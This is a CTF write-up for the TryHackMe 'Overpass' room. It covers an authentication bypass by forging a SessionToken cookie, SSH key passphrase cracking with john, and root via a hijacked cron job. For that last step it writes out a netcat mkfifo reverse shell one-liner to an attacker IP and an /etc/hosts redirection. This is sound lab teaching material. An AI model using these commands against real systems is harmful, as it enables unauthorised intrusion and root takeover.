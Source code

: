 ```yaml
---
layout: post
author: pr0rat
title: "TryHackMe - Overpass"
date: 2023-05-22 09:31:00 +0300
image: /assets/img/Posts/overpass.webp
categories: [Tryhackme, Easy]
tags: [cronjobs, cookies, web, john the ripper, ssh]
---
```


| Room       | [Overpass](https://tryhackme.com/room/overpass)            |
| ---------- | ---------------------------------------------------------- |
| Author     | [tryhackme](https://tryhackme.com/p/tryhackme)             |
| Difficulty | Easy                                                       |

> description: What happens when some broke CompSci students make a password manager? I guess we are about to find out.

This write up explains my approach towards solving overpass a tryhackme machine was testing on a bit of OWASP top 10, john and cron jobs.

## Let's begin
First we start with nmap scan using the command `sudo nmap -A -sV -T4 [target IP] -oN nmap.txt`. We find that only two ports are open, `22` and `80`. We know that port `22` runs SSH right? and port `80` is always http.
![image](/assets/img/Posts/overpass/nmap_overpass.webp)

So i went on and opened my browser and visited the website that is running on the machine at port `80` just by pasting the IP in the url tab.
![image](/assets/img/Posts/overpass/welcome_overpass.webp)
Navigating through the web, i found nothing juicy that i could use against the machine. So i went on and tried to scan for any hidden the directories using gobuster and found an /admin directory, wow!!
```bash
gobuster dir -e -u http://[targetIP] -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 50 | tee gobustlog
```
![image](/assets/img/Posts/overpass/gobusteroverpass.webp)
we found a login for the admin user but we don’t have any hint on the username or password so far, what now? checking the code? yes, i found a javascript file `login.js`
![image](/assets/img/Posts/overpass/scripts_overpass.webp)

Going through its code, in the very bottom i saw a `login` function which seemed vulnerable and indeed it was. The if condition was checking for the valid credential. If incorrect, it was outputting `Incorrect Credentials`, but if correct, it was setting a Cookie named `SessionToken` and redirecting the user to `/admin`. I wondered if the server was actually validating the cookie and we can utilize that to our benefit by setting any cookie value and hopefully work.
![image](/assets/img/Posts/overpass/vulncode_overpass.webp)

So, there are to ways we can go about this,
First one is, we need to open the developer’s tools by right-clicking on the page and clicking the `inspect` option then we go to `storage` and choose `cookies` and press the `+` at the top right corner and change the name to `SessionToken` and the path to `/`

And the second is opening the console and and setting the cookie

```js
Cookies.set(“SessionToken”, 200)
```
When you are done, you reload the page and boom!!! you have the RSA key for user james as it is mentioned in the text.
![image](/assets/img/Posts/overpass/sshkey.webp)
![image](/assets/img/Posts/overpass/sshkey1.webp)

Copied the key and saved it in my host machine and don’t forget it is encrypted. So we use ss2john to convert it

```bash
ssh2john jamesid > james_id
```

and then crack the password

```bash
john james_id — format=SSH — wordlist=/usr/share/wordlists/rockyou.txt
```
We get the passphrase and to login to the ssh account
![image](/assets/img/Posts/overpass/ssh2john_ovepass.webp)
## user flag
It is is right in the home directory, all you have to do is cat the user.txt file
```bash
cat user.txt
```

## root flag
To get the root flag we should become root user. How? lets see if there is something we can exploit to escalate our privileges

### privilege escalation

I decided to use linpeas (a linux privilege escalation automated script) from this page. i had to get it to the target machine from my host machine. So, i started server in my machine and used wget command in the target machine to download the file from my server

We change its mode to executable 
```bash
chmod +x linpeas.sh
```
and then execute it `./linpeas.sh`

and going through the log or the findings, the cron jobs section caught my eye. it looks like the machine is executing the buildscript.sh from the overpass.thm domain as root…really interesting!!!!!!

So we can change and imitate the directory to the script and change its contents to a reverse shell command and get the shell as root…woow!!.

lets get to it right away
![image](/assets/img/Posts/overpass/crontab_overpass.webp)
From that point, i simulated the `overpass.thm/downloads/src/buildscript.sh` by creating the directory `downloads` and within it, i created `src` and finally created the `buildscript.sh` file and placed a one liner reverse shell netcat command

```bash
mkdir downloads

cd downloads

mkdir src

cd src

nano buildscript.sh

and paste the netcat command in the created file

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <yourIP> 1234 >/tmp/f
```
make it executable
```bash
chmod +x buildscript.sh
```
and started a python server from the base directory where the the downloads dir is located `sudo python3 -m http.server 80`
and in the target machine i added my IP to the /etc/hosts file and with the domain overpass.thm
![image](/assets/img/Posts/overpass/target_hosts_file.webp)
we listen to port specified in the reverse shell command and patiently waited for the connection from the remote machine as root. yes!!!! we got the connection as root!!!

to get the flag
```bash
cat root.txt
```
![image](/assets/img/Posts/overpass/root_overpass.webp)

hope you enjoyed the write up!!. thank you 😁